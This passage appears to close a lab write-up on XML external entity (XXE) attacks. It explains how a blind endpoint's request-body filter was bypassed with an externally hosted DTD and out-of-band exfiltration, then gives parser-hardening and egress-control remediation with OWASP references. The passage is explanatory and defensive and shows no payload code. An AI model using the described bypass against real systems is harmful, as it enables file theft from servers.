  
  
### Why It Worked

Two layers stack here:

- **The parser still resolves external DTDs and parameter entities.** Nothing about `/xxe/blind` disables `DOCTYPE` processing or external entity resolution — the only difference from Parts 1/2 is that this endpoint doesn't reflect the resolved value back in its own response.
- - **The filter checks the request, not what the request points to.** `/xxe/blind` rejects an inline `SYSTEM "file://"` declaration, but that's a request-body string check — it does nothing once the entity is defined in a *separate*, externally-hosted DTD. The parser still fetches and resolves that external file's entities exactly as it did in Parts 1/2, so the "blind" protection only blocks the laziest version of the attack.

## Remediation

- **Disable DTD processing entirely** wherever the parser allows it (e.g. `DocumentBuilderFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)` in Java) — if an application doesn't need DTDs, there's no reason to parse them.
- **Disable external entity and external DTD resolution** specifically if DTDs can't be disabled outright (`FEATURE_SECURE_PROCESSING`, disabling `external-general-entities` / `external-parameter-entities`).
- **Don't trust the `Content-Type` header to decide what gets parsed how.** If an endpoint is documented as JSON-only, it should reject anything that isn't valid JSON rather than silently falling back to an XML parser because the client said so.
- **Prefer data formats and libraries with no DTD/entity concept at all** (plain JSON, or a JSON schema validator) for untrusted input wherever XML isn't strictly required.
- **Network egress controls:** even with a hardened parser, restricting the application server's outbound network access limits the damage an OOB technique like the one in Part 3 can do, since the "exfiltration" step depends on the server being able to reach an attacker-controlled host.

## References

- [OWASP – XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- [OWASP Cheat Sheet – XML External Entity Prevention](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
- [PortSwigger – Exploiting XXE to perform SSRF / blind XXE](https://portswigger.net/web-security/xxe/blind)
